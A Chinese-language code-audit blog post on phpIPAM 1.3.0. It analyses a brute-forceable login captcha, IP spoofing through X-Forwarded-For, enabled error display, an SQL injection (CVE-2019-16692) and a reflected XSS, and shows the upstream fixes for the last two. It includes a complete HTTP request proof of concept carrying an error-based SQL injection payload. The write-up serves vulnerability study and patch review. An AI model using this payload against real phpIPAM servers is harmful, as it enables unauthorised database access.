



本文最后更新于：3 个月前
简介
phpipam是一个开源Web IP地址管理应用程序（IPAM）。其目标是提供轻便，现代且有用的IP地址管理。它是基于PHP的应用程序，具有MySQL数据库后端，使用jQuery库，ajax和HTML5 / CSS3功能。
官方网站：https://phpipam.net/
项目代码地址：https://github.com/phpipam/phpipam
本文使用的版本是phpipam1.3.0，目前最新版本是php1.4.3，至于为什么选1.3，懂得都懂
本文挖的洞是参考官方修复文档做的，漏洞并不限于phpipam1.3.0
搭建好环境后可以修改系统语言，在账号修改处可以修改中文。还是很有必要哈哈哈：

登陆验证
做了一个登陆逻辑分析，好像也没什么用。。。

该网站基本都是后台网页，所以漏洞基本存在于后台，所以怎么突破前端验证才能利用这些漏洞。
该网站是有防爆账号密码的处理，当同一个ip登陆次数失败超过5次就需要输入验证码。但很傻的是验证码每次请求后不会刷新，那就可以用这个验证码进行爆破。
另外该网站验证的 ip 优先来自HTTP_X_FORWARDED_FOR，客户端可伪造。
functions/classes/class.User.php
1
2
3
4
5
| 1544:private function block_get_ip () {
if(isset($_SERVER['HTTP_X_FORWARDED_FOR'])) { $this->ip = @$_SERVER['HTTP_X_FORWARDED_FOR']; }
else { $this->ip = @$_SERVER['REMOTE_ADDR']; }
1548:}
|
全局分析
【系统默认开启报错显示】
functions/functions.php
1
2
3
4
| 10:ini_set('display_errors', 1);
11:ini_set('display_startup_errors', 1);
12:if (!$debugging) { error_reporting(E_ERROR ^ E_WARNING); }
13:else { error_reporting(E_ALL ^ E_NOTICE ^ E_STRICT); }
|
10-11 行通过运行时配置 php.ini 的配置项 display_errors 和 display_startup_errors ，这样程序会输出报错信息。
12-13 行通过 $debugging 值确定程序具体输出什么级别的报错信息（如果php.ini中报错信息被关闭，通过error_reporting函数也无法输出报错信息）
display_startup_errors 主要指启动错误，如配置文件出现问题而报错
这里都是打开报错提示的，如果存在sql注入就可能存在sql报错注入，不过开发者在程序上线时可能会把display_errors 和 display_startup_errors 设置为off，这个时候sql报错注入可能要转成盲注判断。
【防御手段寻找】
全文似乎没有对$_GET，$_POST这些数据做统一过滤。
然后搜了sql，xss这些关键字，SQL主要是预编译，其中存在使用参数拼接了数据库表名的情况。另外在class.Common.php中找到一个去除标签的函数strip_input_tags()，但该函数只用于某些文件的$_POST变量传递的值
functions/classes/class.Common.php
1
2
3
4
5
6
7
8
9
10
11
12
13
| 524-535
public function strip_input_tags ($input) {
if(is_array($input)) {
foreach($input as $k=>$v) {
$input[$k] = strip_tags($v);
}
}
else {
$input = strip_tags($input);
}
return $input;
}
|
然后有些文件会对$_POST数据做如下处理
1
2
|
$_POST = $User->strip_input_tags ($_POST);
|
SQL 注入
https://github.com/phpipam/phpipam/issues/2738
这个漏洞还有cve编号，CVE-2019-16692
【注入】
影响版本：phpipam <= 1.4.0
app/admin/custom-fields/edit.php
1
2
| 36:$Admin->validate_action ($_POST['action'], true);
43:$fieldval = (array) $Tools->fetch_full_field_definition($_POST['table'], $_POST['fieldName']);
|
36行：会验证action参数，我们需要提交合法的action参数，否则会退出程序
43行：$_POST['table'] 和 $_POST['fieldName'] 直接传入函数中，在文件中也没有找到对$_POST数据的过滤，跟踪 fetch_full_field_definition() 函数
functions/classes/class.Tools.php
1
2
3
4
5
6
7
8
9
10
| 815-823:
public function fetch_full_field_definition ($table, $field) {
$table = $this->Database->escape($table);
try { $field_data = $this->Database->getObjectQuery("show full columns from `$table` where `Field` = ?;", array($field)); }
catch (Exception $e) { $this->Result->show("danger", $e->getMessage(), false); return false; }
return($field_data);
}
|
$table 在sql语句中通过双引号解析出值，位于反引号中，反引号一般不会被过滤。$field 则是被预编译处理。
其中$table有被eacape()函数处理过，追踪下这个函数。
functions/classes/class.PDO.php
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
| 205-220
public static function unquote_outer($str) {
$len = strlen($str);
if ($len>1) {
if ($str[0] == "'" && $str[$len-1] == "'") {
return substr($str, 1, -1);
} else if ($str[0] == "'") {
return substr($str, 1);
} else if ($str[$len-1] == "'") {
return substr($str, 0, -1);
}
} else if ($len>0) {
if ($str[0] == "'") {
return '';
}
}
278-282:
public function escape($str) {
if (!$this->isConnected()) $this->connect();
return $this->unquote_outer($this->pdo->quote((string)$str));
}
|
$table 首先会经过 pdo->quote() 首尾被加上引号，并对其中的特殊字符转义
然后unquote_outer() 会把首尾的引号去掉
这是什么迷惑操作，难道不能直接使用addslashes()这种函数过滤吗？
这里sql注入我们只需要闭合反引号就可以了，而反引号不会被上面的操作过滤掉，所以这里存在sql注入漏洞
所以最终利用的POC：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
| POST /app/admin/custom-fields/edit.php HTTP/1.1
Host: phpipam.test:8888
Content-Length: 67
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:6.0) Gecko/20100101 Firefox/6.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://phpipam.test:8888
Referer: http://phpipam.test:8888/?page=login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: phpipam=82d83ea690b322af6fb6a80e93a166cd
Connection: close
action=add&table=users`where 1=(updatexml(1,concat(0x3a,(select user())),1))#`
|

【修复情况】
下载的 phpipam1.4.2 源代码查看修复情况
functions/classes/class.PDO.php
1
2
3
4
5
6
7
8
9
10
11
| 294-303:
public function escape($str) {
$str = (string) $str;
if (strlen($str) == 0) return "";
if (!$this->isConnected()) $this->connect();
$str = str_replace('`', '', $str);
return $this->unquote_outer($this->pdo->quote($str));
}
|
可以看到这里使用了 str_replace() 函数把反引号直接去除了
XSS
【注入】
影响版本：phpipam <= 1.3.1
app/tools/mac-lookup/index.php
1
2
3
| 15:<input class="search input-md form-control" name="mac" placeholder="<?php print _('MAC address'); ?>" value='<?php print @$_GET['mac']; ?>' type="text" autofocus="autofocus" style='width:250px;'>
30:if (strlen(@$_GET['mac'])>0) { include('results.php'); }
31:else { include('tips.php');}
|
$_GET[‘mac’] 传入的参数并没有被过滤，直接输出到了网页中
跟踪results.php
1
2
| 6:$_GET['mac'] = trim($_GET['mac']);
26:print "MAC: ".$_GET['mac'];
|
同样也没有对 $_GET[‘mac’] 做xss过滤，这两个地方都能触发xss漏洞，利用poc如下：
【修复情况】
app/tools/mac-lookup/index.php
1
| 15:<input class="search input-md form-control" name="mac" placeholder="<?php print _('MAC address'); ?>" value='<?php print @escape_input($_POST['mac']); ?>' type="text" autofocus="autofocus" style='width:250px;'>
|
app/tools/mac-lookup/results.php
1
2
| 5:$mac = escape_input(trim($_POST['mac']));
26:print "MAC: ".$mac;
|
$mac 参数通过escape_input()做了过滤
functions/global_functions.php
1
2
3
| function escape_input($data) {
return (!isset($data) || strlen($data)==0) ? '' : htmlentities($data, ENT_QUOTES);
}
|
htmlentities 将字符转换为 HTML 转义字符，ENT_QUOTES 标识表示既转换双引号也转换单引号。